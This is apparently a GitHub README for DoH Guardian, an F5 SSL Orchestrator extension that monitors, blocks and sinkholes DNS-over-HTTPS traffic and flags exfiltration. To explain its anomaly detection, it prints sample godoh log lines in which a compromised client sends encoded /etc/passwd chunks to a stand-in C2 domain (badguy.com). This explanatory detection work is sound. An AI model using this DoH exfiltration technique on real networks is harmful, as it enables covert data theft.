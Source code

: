 # SSL Orchestrator DoH Guardian
DoH Guardian is an F5 SSL Orchestrator **service extension** function for monitoring/managing DNS-over-HTTPS traffic flows and detecting potentially malicious DoH exfiltration. This SSL Orchestrator service extension is invoked at a detected (and decrypted) DNS-over-HTTPS request and has several options for logging, management, and anomaly detection.

Requires:
* BIG-IP SSL Orchestrator 17.1.x (SSLO 11.1+)
* Optional URLDB subscription -and/or- custom URL category (if categorization is required)

### To implement via installer:
1. Run the following from the BIG-IP shell to get the installer:
  ```bash
  curl -sk https://raw.githubusercontent.com/kevingstewart/sslo-service-extension-doh-guardian/refs/heads/main/doh-guardian-installer.sh -o doh-guardian-installer.sh
  chmod +x doh-guardian-installer.sh
  ```

2. Export the BIG-IP user:pass:
  ```bash
  export BIGUSER='admin:password'
  ```

3. Run the script to create all of the DoH Guardian objects
  ```bash
  ./doh-guardian-installer.sh
  ```

4. The installer creates a new inspection service named "ssloS_F5_DoH". Add this inspection service to any service chain that can receive decrypted HTTP traffic. Service extension services will only trigger on decrypted HTTP, so can be inserted into service chains that may also see TLS bypass traffic (not decrypted). SSL Orchestrator will simply bypass this service for anything that is not decrypted HTTP.

------
### To customize functionality
The **doh-guardian-rule** iRule has a number of editable settings:
* **DOH_LOG_LOCAL**: <br />Enables or disables local (/var/log/ltm) logging of DoH requests and events. (1=on, 0=off)
* **DOH_LOG_HSL**: <br />Defines a high-speed logging pool to send logs to external SIEM. (pool name)
* **DOH_CATEGORY_TYPE**: <br />Defines the category database to use, subscription, custom, or both. (string selection)
* **DOH_BLOCKING_BASIC**: <br />Enables or disables basic DoH blocking. This option is mutually exclusive and simply blocks all detected DoH requests. (1=on, 0=off)
* **DOH_BLACKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH blackhole action. (category list)
* **DOH_BLACKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default blackhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_BY_CATEGORY**: <br />Defines the list of categories that will trigger a DoH sinkhole action. (category list)
* **DOH_SINKHOLE_BY_CATEGORY_ACTION**: <br />Allows for the default sinkhole action, or a dryrun (logging) action. (string selection)
* **DOH_SINKHOLE_IP4**: <br />Defines the IP4v address that will be used for the sinkhole action on A requests. (ipv4 address)
* **DOH_SINKHOLE_IP6**: <br />Defines the IP4v address that will be used for the sinkhole action on AAAA requests. (ipv6 address)
* **DOH_ANOMALY_DETECTION**: <br />Enables or disables anomaly detection. (1=on, 0=off)
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN**: <br />Defines the long subdomain anomaly detection, by virtue of a max character length setting (integer, default=52 characters). 
* **DOH_ANOMALY_CONDITION_LONG_DOMAIN_ACTION**: <br />Defines the action to be taken on the long subdomain anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE**: <br />Defines the uncommon query type anomaly detection, by virtue of a list of uncommon types. (DNS record type list)
* **DOH_ANOMALY_CONDITION_UNCOMMON_TYPE_ACTION**: <br />Defines the action to be take on the uncommon type anomaly: dryrun, drop, blackhole, or sinkhole. (string selection)

------
### DoH Inspection Explained

You may be asking, why do I need to inspect DNS-over-HTTPS traffic? DNS has been around longer than the web, and to be honest, you don't hear a lot about it with all of the other more exciting (and terrifying) security issues flying around. As it happens, though, DNS as a protocol is extremely flexible, making it very good at things like side-channel attacks and data exfiltration. In a scenario where an attacker can control a client on an enterprise network, and a DNS server out on the Internet, it becomes rather trivial for that attacker to move (exfiltrate) arbitrary data in the form of small chunks of encoded TXT records, or even dynamic subdomain names. However, as DNS itself is not encrypted, it's typically very easy to spot these anomalies. And most enterprises will implement local DNS forwarding, so data exfiltration over raw DNS is rarely successful. However...DNS-over-HTTPS (DoH) is essentially DNS wrapped in encrypted HTTPS for added security. The original intention for this is to provide privacy, but DoH has been found to possess some interesting drawbacks:

* The most popular browsers support DoH, and by default point their queries at Internet-based services like Cloudflare and Google. Where an enterprise once had full visibility of their DNS traffic, that is now absent unless you either set up local DoH services and modify all local browser clients to use this, or just block access to Cloudflare and Google DNS altogether. It is worth noting, though, that these are only two of thousands of DoH providers available.
* DoH rides on regular HTTPS, port 443, and is otherwise indistinguishable from regular HTTPS web traffic. It's not generally possible to simply "block DoH" unless you do so, either by known DoH URLs, or by decrypting it and inspecting the payloads.

Unquestionably, DNS-over-HTTPS is an important privacy enhancement to DNS; but in doing so now obfuscates serious data leakage opportunities. DoH inspection is the explicit decryption of outbound HTTPS traffic and subsequent detection of the DoH requests and responses. This function allows an organization to regain visibility and control of DNS requests heading out to Internet DoH providers. From simple logging or blocking, to DNS blackhole and sinkhole actions, and some exfiltration anomaly detections, DoH inspection can be a vital part of the overall security of enterprise traffic flows.

------
### DoH Anomaly Detection Explained

Before getting into the weeds of DoH anomaly detection, it's important to illustrate an actual exploit. There are many different tools for doing DoH exfiltration, but they all run on essentially the same basic principles: encoding chunks of data in multiple DNS requests. A compromised system inside the corporate network will make DNS-over-HTTPS queries to some public DoH service (ex. Cloudflare), which wlll forward those requests to a C2 DNS instance somewhere on the Internet. From the organization's perspective, this is just HTTPS traffic going to Cloudflare. The compromised client "agent" will periodically query the C2 instance, and when ready the C2 instance will issue a command in its response. We can look at a simple example from the **godoh** tool. In this case, the client agent makes successful contact with the C2 instance and sends periodic queries, waiting for commands:

```bash
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
DoH TXT Query: name=6d73687836.badguy.com,type=16,version=JSON,id=null
```

This is a DNS **TXT** record request. At some point, the C2 instance will issue a command that it encodes in its TXT record response. The C2 server could, for example, say something like, "Give me your /etc/passwd file." The client agent will then go do the thing (get the local /etc/passwd file), break it into a bunch of small pieces, encode those pieces, and then send those pieces to the C2 instance as A record requests:

```bash
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.12.a88ac3df.0.3.f943910ae0adcf7105990f3192c19236d04c0df22f897d91c3efec75f2d1.f9d26d1e218b77c6a28c9681391596f610ecbfac02f5b3bc5d5763b891c4.ea32f05d2bfc4eb65078835e0d8234f8b76bf20099e87b13305d14c23f98.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
```

And so, what looks like regular HTTPS traffic going to Cloudflare has just copied the contents of a sensitive system file to a bad actor on the Internet. There are a number of ways to "detect" anomalous DNS-over-HTTPS traffic, as documented in [Real time detection of malicious DoH traffic using statistical analysis](https://www.sciencedirect.com/science/article/pii/S1389128623003559). In this implementation we focus on two of these:

* **Abnormally long subdomain names**: where, as illustrated above, the full subdomain in a DoH exfiltration event will exceed some character length (default 52 characters).
* **Uncommon query types**: where the DoH agent uses an uncommon query type to convey messages (ex. NULL, NAPTR).

------
### DoH Blackhole Action Explained

By [definition](https://www.ijitee.org/wp-content/uploads/papers/v8i7c2/G10040587C219.pdf), a DNS blackhole essentially diverts a DNS client to *nothing*. A DNS blackhole will either drop the request entirely, or respond with an NXDOMAIN. However, a browser that fails in getting a DoH response will almost always retry with regular DNS, making this a less effective option. To properly blackhole a DoH request, the client must receive an actual response, but to something that does not exist. In this implementation, a DoH blackhole responds to the client with either a 199.199.199.199 IPv4 address for an A request, or 0:0:0:0:0:ffff:c7c7:c7c7 IPv6 address for a AAAA request.

------
### DoH Sinkhole Action Explained

In a sinkhole response, the resolver sends back an IP address that points to a local blocking server. In contrast to a blackhole, a DNS sinkhole is diverting to *something*. The sinkhole destination is then able to respond to the client's request, so instead of just dying, the user might get a blocking page instead. In a DoH/DNS sinkhole without SSL Orchestrator, a client would initiate a TLS handshake to this server (believing it's the real site), and would get a certificate error because the server certificate on that blocking server doesn't match the Internet hostname requested by the client. The SSL Orchestrator solution requires two configurations:

* A sinkhole internal virtual server that simply hosts the "blank" certificate that SSL Orchestrator will use to mint a trusted server certificate to the client.
* An SSL Orchestrator outbound L3 topology modified to listen on the sinkhole destination IP, and inject the blocking response content.























